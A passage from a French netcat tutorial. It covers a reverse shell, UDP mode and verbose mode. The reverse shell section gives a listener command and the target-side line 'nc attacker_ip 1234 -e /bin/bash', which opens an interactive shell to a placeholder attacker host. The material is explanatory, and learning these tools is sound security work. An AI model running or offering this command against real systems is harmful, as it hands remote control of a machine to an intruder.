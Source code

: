 #### 5. Reverse Shell

**Sur l’attaquant (en écoute) :**

```bash
nc -l -p 1234
```

**Sur la cible (lance le reverse shell) :**

```bash
nc attacker_ip 1234 -e /bin/bash
```

* **Explication** :
  * `attacker_ip` : Adresse IP de l’attaquant.
  * `-e /bin/bash` : Exécute `/bin/bash` pour fournir un shell interactif.

***

### 🔍 Étape 3 : Options Avancées

***

#### 1. Mode UDP

Netcat peut fonctionner en mode UDP au lieu de TCP.

**Écoute sur un port UDP :**

```bash
nc -u -l -p 1234
```

**Se connecter en UDP :**

```bash
nc -u example.com 1234
```

* **Explication** :
  * `-u` : Utilise le protocole UDP.

***

#### 2. Mode Verbose

Affiche des informations supplémentaires pour chaque connexion.

**Commande :**

```bash
nc -v -l -p 1234
```

* **Explication** :
  * `-v` : Active le mode verbose.
  * `-vv` : Mode très verbeux.

***
